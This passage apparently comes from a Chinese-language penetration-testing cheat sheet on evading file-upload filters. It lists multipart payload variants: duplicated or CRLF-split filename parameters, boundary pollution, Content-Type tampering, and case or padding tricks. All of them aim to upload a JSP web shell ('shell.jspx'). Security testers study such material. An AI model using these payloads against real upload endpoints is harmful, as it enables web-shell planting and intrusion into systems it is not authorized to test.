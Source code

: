             回车换行绕过（注意不要把固定字段打散了，）
            Content-Disposition:
            form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
            
            双写绕过（写两次）
            Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
            Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx.jpg;
            还有一些参数污染加减空格啥的，和上面filename类似，就不重复写了。
            ```
        </TabItem>
        <TabItem value="boundary" label="boundary">
            ```bash
            加减空格或者前面加恶意的参数
            boundary =---------------------------8472011224916008542288311250
            &boundary =---------------------------8472011224916008542288311250
            123& boundary =---------------------------8472011224916008542288311250
            
            多个污染（他是用来分割的，他变了下面的也要变一下）
            boundary =---------------------------8472011224916008542288311251
            boundary =---------------------------8472011224916008542288311252
            
            回车换行污染
            ```
        </TabItem>
        <TabItem value="Content-Type" label="Content-Type">
           - 直接删除
           - 修改类型为application/text或者 image/jpeg等等
           - 回车换行
           - 溢出
           - 参数污染
           - 重复传入Content-Type
           - 大小写变换
           - 设置charset : `Content-Type: multipart/form-data;charset=iso-8859-13`
        </TabItem>
    </Tabs>

2. HPP 参数污染
    <Tabs>
        <TabItem value="1" label="名字特殊符号替换以及构造异常闭合" default>
            ```bash
            filename='shell.jspx.jsp'
            filename=shell.jspx.jsp
            filename=shell.jspx.jsp'
            "filename"=shell.jspx;
            ```
        </TabItem>
        <TabItem value="2" label="重写">
            ```bash
            filename=shell.jpg;filename=shell.jspx;
            filename=shell.jspx;filename=shell.jpg;
            ```
        </TabItem>
        <TabItem value="3" label="大小写变化">
            ```bash
            FileName=shell.jspx.jsp'
            ```
        </TabItem>
        <TabItem value="4" label="参数污染">
            ```bash
            FileName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaashell.jspx.jsp'
            FileName =shell.jspx（加空格）
            filename===="shell.jspx.jsp1"（加等号）
            FileName =shell.jspx（前后加空格，中间也可以加特殊符号fuzz）
            ```
        </TabItem>